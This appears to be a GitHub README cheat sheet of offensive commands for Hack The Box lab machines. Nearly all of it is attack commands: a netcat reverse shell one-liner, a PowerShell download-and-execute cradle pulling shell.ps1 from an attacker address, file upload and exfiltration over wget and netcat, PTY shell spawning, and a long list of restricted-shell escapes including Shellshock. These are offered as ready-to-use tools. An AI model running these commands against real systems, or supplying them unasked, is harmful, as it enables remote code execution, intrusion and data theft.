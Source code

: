 # Hackthebox tools
**shell.php and shell.ps1** : Use for reverse shell when uploaded to vuln machine
```shell
# Listen for reverse shell
nc -lnvp <port number> 
# Use netcat for reverse shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip address> <port> >/tmp/f
```
**les.sh, LinEnum.sh, lse.sh (Recommended)** : Use for detect vuln in Linux machine

**Sherlock.ps1** : Use for detect vuln in Windows machine

### How to upload files to vuln linux machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
wget (your ip address):8000/(file to upload)
```
Example : 
```shell
wget 10.10.14.62:8000/les.sh
```
### How to execute powershell script to vuln windows machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
# if in powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
# or if in cmd
powershell IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
```
  
Example : 
```shell
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.12.81:8000/shell.ps1')
```
### How to spawn bash shell
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### How to download file using netcat
```shell
# In your machine
nc -lnvp 6666 > file
# In vuln machine
nc -w 3 <your ip> 6666 < file
```
### How to escape rbash
```shell
ftp > !/bin/sh or !/bin/bash
gdb > !/bin/sh or !/bin/bash
more/man/less > !/bin/sh or !/bin/bash
vim > !/bin/sh or !/bin/bash
vim > :python import os; os.system("/bin/bash )
scp > scp -S /path/yourscript x y:
awk > awk 'BEGIN {system("/bin/sh or /bin/bash")}'
find > find / -name test -exec /bin/sh or /bin/bash \;
except > except spawn sh then sh.
python > python -c 'import os; os.system("/bin/sh")'
php > php -a then exec("sh -i");
perl > perl -e 'exec "/bin/sh";'
lua > os.execute('/bin/sh').
ruby > exec "/bin/sh"
ssh > ssh username@IP - t "/bin/sh" or "/bin/bash"
ssh2 > ssh username@IP -t "bash --noprofile"
ssh3 > ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
ssh4 > ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
git > git help status > you can run it then !/bin/bash
pico > pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
zip > zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
tar > tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
